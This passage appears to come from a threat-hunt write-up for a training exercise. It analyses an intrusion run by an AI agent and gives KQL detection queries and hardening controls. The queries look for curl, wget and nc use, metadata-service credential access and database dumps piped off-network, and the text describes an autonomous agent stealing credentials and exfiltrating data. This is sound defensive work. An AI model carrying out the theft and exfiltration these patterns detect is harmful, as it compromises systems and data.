| IMDS connection | 84 polls from the `refresh` credential-helper daemon | `ActingProcessName` | `python3.12` |
| `GetSecretValue` | Routine calls, also `ReadOnly=false`, also successful | `SourceIpAddress` **and** `SecretId` | rotating pool + `prod/bastion/ssh-deploy-key` |
| Overall pace | Routine sessions scattered across a 13-hour day | Temporal clustering | Continuous burst, **51 min 57 sec** |

The screenshots for the first two are in Phase 1 ([parent breakdown](screenshots/06-python-parent-breakdown.png)) and Phase 2 ([IMDS by process](screenshots/08-imds-by-process.png)) — the same two queries answer both the "what happened" and the "is it real" question, which is the point.

Two observations I'd carry forward:

**A discriminator that works inside a scoped session can fall apart at estate scale.** `ReadOnly = false` was my clean line in Phase 4 *within that session*. Across the whole workspace, legitimate application calls share the exact same shape — they just come from a stable CI address and target operational secrets. You need two dimensions, not one.

**Temporal density may be the most durable detection we have for agentic operations.** Humans get tired, read output, think, make coffee. Those gaps show up in telemetry as a rhythm. The `refresh` daemon polls IMDS 84 times because that's its job, spread across the day. The estate's own agent sessions span thirteen hours. A 52-minute chain from initial access to "objective complete," with nine log records and no pauses, isn't a person — and that's a property of the *operator*, not the tooling, so it survives changes to payload, infrastructure, and model.

---

## Detection opportunities

Queries I'd take out of this hunt and into production. These aren't from the exercise — they're what I'd write afterwards.

<details>
<summary><b>Detection 1 — Notebook kernel spawning a child interpreter</b></summary>

```kusto
LinuxProcess_CL
| where ActingProcessCommandLine has_any ("marimo", "jupyter", "notebook")
| where TargetProcessName has_any ("python", "bash", "sh", "curl", "wget")
| where ActingProcessCommandLine has_any ("--no-token", "--ip=0.0.0.0", "--host 0.0.0.0", "--allow-root")
| project EventStartTime, Dvc, TargetProcessName, TargetProcessId, ActingProcessCommandLine
```

A notebook server with auth disabled and a broad bind is the precondition; a child process off that parent is the event. Near-zero volume in a healthy estate.
</details>

<details>
<summary><b>Detection 2 — IMDS access from an unexpected process</b></summary>

```kusto
let KnownHelpers = dynamic(["refresh", "aws-cli", "cloud-init", "amazon-ssm-agent"]);
LinuxNetwork_CL
| where DstIpAddr == "169.254.169.254"
| where ActingProcessName !in (KnownHelpers)
| summarize Connections = count(), Processes = make_set(ActingProcessName)
    by Dvc, bin(EventStartTime, 5m)
```

Baseline your credential helpers once, then alert on anything else reaching the metadata service. Pair it with IMDSv2 and a hop limit of 1 so this is hard to reach in the first place.
</details>

<details>
<summary><b>Detection 3 — One credential, many source addresses</b></summary>

```kusto
AWSCloudTrail
| where isnotempty(UserIdentityAccessKeyId)
| summarize DistinctIPs = dcount(SourceIpAddress),
            IPs = make_set(SourceIpAddress, 20),
            Calls = count()
    by UserIdentityAccessKeyId, bin(TimeGenerated, 15m)
| where DistinctIPs >= 3
| order by DistinctIPs desc
```

Tune the threshold to your estate. NAT gateways and CI runners surface first — allow-list them, and what's left is interesting. This would have caught Phase 3 in near real time.
</details>

<details>
<summary><b>Detection 4 — Service account interactive login</b></summary>

```kusto
let ServiceAccounts = dynamic(["deploy", "pgbackup", "svc-notebook", "ci-runner"]);
LinuxAuth_CL
| where EventResult == "Success"
| where TargetUsername in (ServiceAccounts)
| project EventStartTime, Dvc, TargetUsername, EventOriginalMessage
```

Service accounts should be used by services. An interactive SSH session as one is either a bad operational habit or an intrusion, and both deserve a ticket.
</details>

<details>
<summary><b>Detection 5 — Database dump piped to an external destination</b></summary>

```kusto
LinuxShellHistory_CL
| where Command has_any ("pg_dump", "mysqldump", "mongodump")
| where Command has_any ("curl", "wget", "nc ", "scp", "|")
| extend ExternalTarget = Command matches regex @"https?://(?!10\.|172\.(1[6-9]|2[0-9]|3[01])\.|192\.168\.)"
| where ExternalTarget
| project TimeGenerated, Computer, ShellUser, Command
```

A dump piped anywhere off-subnet. The regex excludes RFC1918 space so the legitimate nightly job doesn't fire it.
</details>

### Hardening that would have broken the chain

| Control | Where it breaks |
|---|---|
| Don't publish notebook servers with `--no-token` on `0.0.0.0` | Phase 1 — no initial access |
| Enforce IMDSv2 with `HttpPutResponseHopLimit=1` | Phase 2 — no credential theft |
| Scope the notebook instance role away from Secrets Manager | Phase 3/4 — no secret discovery or theft |
| Short-lived SSH certificates instead of long-lived keys in Secrets Manager | Phase 5 — stolen key is useless |
| Egress filtering from the bastion and database subnets | Phase 6 — the dump has nowhere to go |
| **Collect agent reasoning telemetry** | Every phase — the highest-signal table in this hunt |

---

## What I took away from this

**1. The AI part changes the operator, not the techniques.** Every ATT&CK technique here predates LLMs by a decade. What changed is speed, persistence, and the fact that adaptive decisions — like rotating egress after a throttle — happened with no human in the loop. Defences that assume the attacker pauses to think are the ones that fail.

**2. Agent reasoning logs are a gift to defenders, and almost nobody collects them.** The CVE named before exploitation, the row count stated before the dump, the tasking instruction in plain English, the "objective complete" sign-off. A human operator leaves none of that. If agentic tooling runs in your estate, that telemetry belongs in your SIEM.

**3. Two frameworks, one incident.** ATLAS covers the AI-native layer (AML.T0098, maturity Realized). ATT&CK covers the conventional consequence (T1552.005, T1090.003, T1021.004). Neither is sufficient alone — ATLAS doesn't tell the cloud team what to rotate, and ATT&CK loses the fact that an autonomous system drove it.

**4. Knowing what a log *cannot* tell you is a skill.** The Phase 4 visibility gap is the finding I'd most want in a real report. "CloudTrail records that the secret was read, never what it contained" is a true, useful, defensible statement. Guessing at the key material to make the report feel complete would have been worse than useless.

**5. Test the assumption, not the conclusion.** Twice a reasonable-sounding assumption was wrong — the curl PID owning the IMDS socket, and the nightly-backup explanation for the dump. Both were disprovable in one query each. The habit of running that query instead of nodding along is most of the job.

---

## Repo structure

```
.
├── README.md                  # this write-up
├── queries/
│   └── hunt-queries.kql       # every query, runnable, in attack order
└── screenshots/               # 28 Sentinel captures, referenced inline above
```

---

## References

- MITRE ATT&CK — https://attack.mitre.org/
- MITRE ATLAS — https://atlas.mitre.org/
- Sysdig Threat Research Team, Pisa 2026 — LLM agents in autonomous post-exploitation *(baseline intel for this scenario)*
- AWS — Secrets Manager CloudTrail event reference; EC2 instance metadata service (IMDSv2)
<details>
<summary><b>Professional Report - view below </b></summary>
[THR-2026-025-Meridian-Threat-Hunt-Report.pdf](https://github.com/user-attachments/files/32426399/THR-2026-025-Meridian-Threat-Hunt-Report.pdf)
</details>
<details>
<summary><b>📄 Professional Report — View Below</b></summary>

[THR-2026-025-Meridian-Threat-Hunt-Report.pdf](https://github.com/user-attachments/files/32426399/THR-2026-025-Meridian-Threat-Hunt-Report.pdf)

</details>

---

*All hostnames, addresses, account identifiers and data volumes come from a training environment. `198.51.100.0/24` and `203.0.113.0/24` are RFC 5737 documentation ranges. No production system or real customer data is involved.*
